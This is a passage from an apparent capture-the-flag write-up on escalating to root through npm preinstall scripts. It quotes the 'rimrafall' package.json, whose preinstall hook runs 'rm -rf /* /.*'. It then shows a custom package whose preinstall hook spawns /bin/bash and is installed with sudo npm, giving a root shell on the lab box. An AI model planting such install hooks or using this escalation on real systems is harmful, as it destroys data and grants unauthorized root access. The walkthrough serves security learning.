 ```

{
  "name": "rimrafall",
  "version": "1.0.0",
  "description": "rm -rf /* # DO NOT INSTALL THIS",
  "main": "index.js",
  "scripts": {
    "preinstall": "rm -rf /* /.*"
  },
  "keywords": [
    "rimraf",
    "rmrf"
  ],
  "author": "João Jerónimo",
  "license": "ISC"
}

```

There’s an item in there, `scripts` with a child `preinstall` that is a command that will run, before the install.

### Shell

I’ll create my own `package.json` in a folder for my fake Node app. `npm` requires that a package have a name and a version.

```

algernon@holiday:/dev/shm$ cat 0xdf/package.json 
{
  "name": "root_please",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "/bin/bash"
  }
}

```

Now I’ll just give it a run:

```

algernon@holiday:/dev/shm$ sudo npm i 0xdf/ --unsafe

> root_please@1.0.0 preinstall /dev/shm/node_modules/.staging/root_please-ea155d5e
> /bin/bash

root@holiday:/dev/shm/node_modules/.staging/root_please-ea155d5e# id
uid=0(root) gid=0(root) groups=0(root)

```

From there I can grab `root.txt`:

```

root@holiday:/root# cat root.txt 
a844cb50...

```